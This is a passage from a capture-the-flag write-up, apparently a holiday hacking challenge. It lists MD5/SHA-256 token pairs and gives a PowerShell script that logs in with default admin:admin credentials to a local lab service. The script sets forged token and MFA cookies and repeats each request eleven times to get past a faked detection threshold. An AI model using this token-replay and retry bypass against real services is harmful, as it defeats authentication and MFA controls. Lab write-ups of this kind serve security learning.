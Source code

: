 Result:

```csv
file_MD5hash,Sha256(file_MD5hash)
04886164e5140175bafe599b7f1cacc8,DFD05F3B46D21BC8556CDBF544325A945ED0304EC0BB7DBFD68ED5931E7FF6EE
664f52463ef97bcd1729d6de1028e41e,1F3C45D7E7B1F7621F67136C538C6933791D3392648C7B0F8B17FB1A6343EBD5
3e03cd0f3d335c6fb50122553f63ef78,E2DBBDBCC7E57E526841899975B6621105710E76C203C1DC30419E7F1CBA5297
f2aeb18f5b3f08420eed9b548b6058c3,BC83A2C7A6279EAD36370AB3509FEA7483EFF83C164FC7CFE3C680D879B9F9D2
32b9401a6d972f8c1a98de145629ea9d,B93772D2393029424049564B366F08B21E66282CE3D7B9DA4F7A69C8891012A0
3a79238df0a92ab0afa44a85f914fc3b,989FDE082FB901AE5EDFD873BF41A76BF47B318F76968D0275DAD99ABD5894B4
49c2a68b21b9982aa9fd64cf0fd79f72,E2B80B2C70BA5982814B758849472C8711AF8051E5261CE827C02818D7E1DE8C
...omitted for brevity...
```

I then wrote a quick Powershell script to iterate over each of them elevent times, as the elves' hints told us that the EDR is faked and will lie that the endpoint didn't work for the first ten times. It also says that the `attemps` cookie you get for one endpoint may be valid for another - so I needed to try them all. Messages when retrieving the endpoints will also tell you the threshhold is set to ten:

```powershell
$user = 'admin'
$pass = 'admin'

$pair = "$($user):$($pass)"

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($pair))

$basicAuthValue = "Basic $encodedCreds"

$Headers = @{
    Authorization = $basicAuthValue
}

$data = Import-Csv -Path "./token_overview_revealed.csv"

$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession

foreach ($row in $data) {
    $cookie = New-Object System.Net.Cookie # Create a new cookie
    $cookie.Name = "token"
    $cookie.Value = $row.file_MD5hash
    $cookie.Domain = "127.0.0.1"
    $session.Cookies.Add($cookie)
    $url = "http://127.0.0.1:1225/tokens/" + $row.'Sha256(file_MD5hash)'
   
    $result = Invoke-WebRequest -Uri $url -Headers $Headers -WebSession $session

    $cookie.Name = "mfa_token"
    $cookie.Value = $result.Links[0].href
    $session.Cookies.Add($cookie)

    $url = "http://127.0.0.1:1225/mfa_validate/" + $row.'Sha256(file_MD5hash)'

    for($i=0; 11 -ge $i; $i++) {
        $response = Invoke-WebRequest -Uri $url  -Headers $Headers -WebSession $session
        $response.Content | Out-File -FilePath ./finalout.txt -Append
    }
}
```
